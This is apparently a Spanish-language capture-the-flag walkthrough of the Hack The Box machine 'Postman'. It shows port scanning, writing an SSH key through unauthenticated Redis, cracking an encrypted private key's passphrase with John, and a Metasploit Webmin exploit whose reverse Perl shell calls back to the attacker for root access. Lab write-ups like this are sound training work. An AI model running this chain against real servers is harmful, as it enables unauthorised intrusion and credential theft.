



Postman es una maquina con un servicio en particular llamado Redis, es un rápido almacén de datos clave-valor en memoria de código abierto que se puede utilizar como base de datos, caché, agente de mensajes y cola.

Masscan & Nmap
Masscan nos arroja rapidamente que el existen 5 puertos abiertos.
1 2 3 4 5 6 7 8 9 10
root@xxmeshxx:~# masscan -p1-65535,U:1-65535 10.10.10.160 --rate=1000 -e tun0 Starting masscan 1.0.4 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth Initiating SYN Stealth Scan Scanning 1 hosts [131070 ports/host] Discovered open port 10000/tcp on 10.10.10.160 Discovered open port 6379/tcp on 10.10.10.160 Discovered open port 80/tcp on 10.10.10.160 Discovered open port 10000/udp on 10.10.10.160 Discovered open port 22/tcp on 10.10.10.160
Los puertos 10000 80 y 6379 se ven intersantes, procedemos a hacer un Nmap.
1 2 3 4 5 6 7 8 9 10 11 12
root@xxmeshxx:~# nmap -sC -sV -p80,10000,6379 10.10.10.160 Starting Nmap 7.70 ( https://nmap.org ) at 2020-03-14 12:19 CDT Nmap scan report for10.10.10.160 Host is up(0.073s latency). PORT STATE SERVICE VERSION 80/tcp open http Apache httpd 2.4.29 ((Ubuntu)) |_http-server-header: Apache/2.4.29 (Ubuntu) |_http-title: The Cyber Geek's Personal Website 6379/tcp open redis Redis key-value store 4.0.9 10000/tcp open http MiniServ 1.910 (Webmin httpd) |_http-title: Site doesn't have a title(text/html; Charset=iso-8859-1).
Revisamos en el navegador el puerto 80:
La pagina menciona que esta bajo construcción
Webmin > https://10.10.10.160:10000 Encontramos un login al Webmin sin embargo no contamos con credenciales para acceder, buscando un poco en Google vemos que existe un exploit para Metasploit que requiere de igual manera credenciales para poder ejecutarlo.

Buscando Redis en Google menciona que cuenta con una vulnerabilidad Unauthorized Access Vulnerability que permite sobreescribir credenciales ssh al servidor tal y como lo menciona @Victor Zhu en su post
Shell inicial
Generar contraseñas y cargando la key al servidor redis:
root@xxmeshxx:~# ssh-keygen -t rsa Generating public/private rsa key pair. Enter file in which to save the key(/root/.ssh/id_rsa): id_rsa Enter passphrase(empty for no passphrase): Enter same passphrase again: Your identification has been saved in id_rsa. Your public key has been saved in id_rsa.pub. The key fingerprint is: SHA256:splewqI9+zjUrKn8s+KSO9LLGpPkp1sASZFZK4gIUj8 root@xxmeshxx The key's randomart image is: +---[RSA 2048]----+ |o+*. | |B+ .. | |*. .E | |. . . | | o o. S | |o.. ..o= | |++ +.o* . | |==*o*+ o | |+OO=*Bo | +----[SHA256]-----+ root@xxmeshxx:~# (echo -e “\n\n”; cat id_rsa.pub; echo -e “\n\n”) > key.txt root@xxmeshxx:~# cat key.txt | redis-cli -h 10.10.10.160 -x set crackit
Configurando Redis:
1 2 3 4 5 6 7 8 9
root@xxmeshxx:~# redis-cli -h 10.10.10.160 10.10.10.160:6379> config get dir 1) "dir" 2) "/var/lib/redis/.ssh" 10.10.10.160:6379> config set dir /var/lib/redis/.ssh OK 10.10.10.160:6379> config set dbfilename "authorized_keys" OK 10.10.10.160:6379> save
redis@Postman:~$ cd /opt redis@Postman:/opt$ ls id_rsa.bak redis@Postman:/opt$ ls -la /home total 12 drwxr-xr-x 3 root root 4096 Sep 112019 . drwxr-xr-x 22 root root 4096 Aug 252019 .. drwxr-xr-x 6 Matt Matt 4096 Sep 112019 Matt
Para transferirlo el id_rsa.bak a mi computadora sacamos el base64 del archivo.
root@xxmeshxx:~# echo -n "LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpQcm9jLVR5cGU6IDQsRU5DUllQVEVECkRFSy1JbmZvOiBERVMtRURFMy1DQkMsNzNFOUNFRkJDQ0Y1Mjg3QwoKSmVoQTUxSTE3cnNDT09WcXlXeCtDODM2M0lPQllYUTExRGR3L3ByM0wyQTJORHRCN3R2c1hOeXFLRGdoZlFuWApjd0dKSlVEOWtLSm5pSmtKenJ2RjFXZXB2TU5rajlaSXRYUXpZTjh3Ympscmt1MWJKcTV4bkpYOUVVYjVJN2syCjdHc1R3c012S3pYa2tmRVpRYVhLL1Q1MHMzSTRDZGNmYnIxZFhJeWFiWExMcFpPaVpFS3ZyNCtLeVNqcDRvdTYKY2RuQ1doemtBL1R3SnBYRzFXZU9tTXZ0Q1pXMUhDQnV0WXNOUDZCRGY3OGJRR21tbGlycVJtWGZMQjkySmhUOQoxdThKekhDSjF6Wk1HNXZhVXR2b24wcWdQeDd4ZUlVTzZMQUZUb3pyTjlNR1dFcUJFSjV6TVZycnQzVEdWa2N2CkV5dmxXd2tzN1IvZ2p4SHlVd1QrYTVMQ0dHU2pWRDg1THhZdXRnV3hPVUtidFdHQmJVOHlpN1lzWGxLQ3d3SFAKVUg3T2ZRejAzVld5K0swYWE4UXMrRXl3Nlgzd2JXbnVlMDNuZy9zTEpuSjcyOXpiM2t1eW04citoVSs5djZWWQpTaitRbmpWVFlqRGZuVDIyakpCVUhUVjJ5cktlQXo2Q1hkRlQreEloeEVBaXYwbTFaa2t5UWtXcFVpQ3p5dVlLCnQrTVN0d1d0U3QwVko0VTFOYTJHM3hHUGptcmttandYdnVkS0MwWU4vT0JvUFBPVGFCVkQ5aTZmc29aNnB3blMKNU1pOEJ6ckJoZE8wd0hhRGNUWVBjM0IwMEN3cUFWNU1YbWtBazJ6S0wwVzJ0ZFZZa3NLd3hLQ3dHbVdscGRrZQpQMkpHbHA5TFdFZXJNZm9sYmpUU09VNW1EZVBmTVEzZndDTzZNUEJpcXpyckZjUE5KcjcvTWNRRUNiNXNmK082CmpLRTNKZm4wVVZFMlFWZFZLM29FTDZEeWFCZi9XMmQvM1Q3cTEwVWQ3Sys0S2QzNmd4TUJmMzNFYTYrcXgzR2UKU2JKSWhrc3c1VEtoZDUwNUFpVUgyVG44OXFOR2VjVkpFYmpLZUovdkZaQzVZSXNRKzlzbDg5VG1KSEw3NFkzaQpsM1lYREVzUWpoWkh4WDVYL1JVMDJEK0FGMDdwM0JTUmpoRDMwY2pqMHV1V2tLb3dwb28wWTBlYmxnbWQ3bzJYCjBWSVdyc2tQSzRJN0lINWdia3J4VkdiLzlnL1cydWExQzNObmN2M01OY2YwbmxJMTE3QlMvUXdOdHVUb3pHOHAKUzlrM2xpK3JZcjZmM21hL1VMc1VuS2labHM4U3BVK1JzYW9zTEdLWjZwMm9JZThvUlNtbE9Dc1kwSUNxN2VSUgpoa3V6VXVIOXovbUJvMnRRV2g4cXZUb0NTRWpnOHlOTzl6OCtMZG9OMXdRV01QYVZ3UkJqSXl4Q1BIRlRKM3UrClp4eTB0SVB3akNadnhVZlluL0s0RlZIYXZ2QStiOWxvcG5VQ0VBRVJwd0l2OCt0WW9md0dWcExWQzBEck41OFYKWFRmQjJYOXNMMW9CM2hPNG1KRjBaM3lKMktaRWRZd0hHdXFOVEZhZ04wZ0JjeU5JMndzeFpOeklLMjZ2UHJPRApiNkJjOVVkaVdDWnFNS1V4NGFNVExoRzVST2pnUUd5dFdmL3E3TUdyTzNjRjI1azFQRVdOeVpNcVk0V1lzWlhpCldoUUZIa0ZPSU53VkVPdEhha1ovVG9ZYVVRTnRSVDZwWnlIZ3ZqVDBtVG8wdDNqVUVSc3BwajFwd2JnZ0NHbWgKS1RrbWhLK01UYW95ODlDZzBYdzJKMThEbTBvNzhwNlVOcmtTdWUxQ3NXakVmRUlGM05BTUVVMm8rTmdxOTJIbQpucEFGUmV0dndRN3h1a2swcmJiNm12RjhnU3FMUWc3V3BiWkZ5dGdTMDVUcFBaUE0waDh0UkU4WVJkSmhlV3JRClZjTnlaSDhPSFlxRVM0ZzJVRjYyS3B0dHFTd0xpaUY0dXRIcSsvaDVDUXdzRitKUmc4OGJueGgyejJCRDZpNVcKWCtoSzVIUHBwNlFualo4QTVFUnVVRUdhWkJFVXZHSnRQR0hqWnlMcGt5dE1oVGphT3JSTll3PT0KLS0tLS1FTkQgUlNBIFBSSVZBVEUgS0VZLS0tLS0K" | base64 -d > Matt
Teniendo el hash del Matt lo pasaremos a otro formato con ssh2john para poder crackearlo: Descarga de ssh2john.py
1
root@xxmeshxx:~#python ssh2john.py Matt > key
El resultado se lo pasamos a John especificandole que el formato es SSH.
1 2 3 4 5 6 7 8 9 10 11 12 13
root@xxmeshxx:~#john --wordlist=/root/rockyou.txt --format=SSH key Using default input encoding: UTF-8 Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64]) Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1for all loaded hashes Cost 2 (iteration count) is 2for all loaded hashes Will run 2 OpenMP threads Note: This format may emit false positives, so it will keep trying even after finding a possible candidate. Press 'q' or Ctrl-C to abort, almost any other key for status computer2008 (id_rsa) Warning: Only 1 candidates left, minimum 2 needed for performance. 1g 0:00:00:13 DONE (2019-12-1423:23) 0.07369g/s 1056Kp/s 1056Kc/s 1056KC/s *7¡Vamos! Session completed
Vemos que nos arroja la contraseña computer2008
1 2 3 4
redis@Postman:/opt$ su Matt Password: Matt@Postman:/opt$ cat /home/Matt/user.txt 517ad0ec2458ca97af8d93aac08a2f3c
Root
Entramos al servidor Webmin > https://10.10.10.160:10000 con las credenciales y vemos un dashboard. Lo que nos indica que tenemos permisos y podemos utilizar el exploit que previamente encontramos. 
Descargamos y configuramos el exploit dentro Metasploit
Name Current Setting Required Description ---- --------------- -------- ----------- PASSWORD computer2008 yes Webmin Password Proxies no A proxy chain of format type:host:port[,type:host:port][...] RHOSTS yes The target address range or CIDR identifier RPORT 10000 yes The target port (TCP) SSL true no Negotiate SSL/TLS for outgoing connections TARGETURI / yes Base path for Webmin application USERNAME Matt yes Webmin Username VHOST no HTTP server virtual host
Payload options (cmd/unix/reverse_perl):
Name Current Setting Required Description ---- --------------- -------- ----------- LHOST 10.10.14.11 yes The listen address (an interface may be specified) LPORT 4444 yes The listen port
Exploit target:
Id Name -- ---- 0 Webmin <= 1.910
msf5 exploit(windows/rce_webmin) >
No olvidemos poner ssl true debido a que el sitio utiliza https.
1 2 3 4 5 6 7 8 9 10 11
msf5 exploit(windows/rce_webmin) > exploit [*] Started reverse TCP handler on 10.10.14.11:4444 [+] Session cookie: 1cc00144dfe9f5e655315be15be093d8 [*] Attempting to execute the payload... [*] Command shell session 1 opened(10.10.14.11:4444 -> 10.10.10.160:50304) at 2020-03-14 17:00:11 -0500 id uid=0(root) gid=0(root) groups=0(root) cat /root/root.txt a257741c5bed8be7778c6ed95686ddce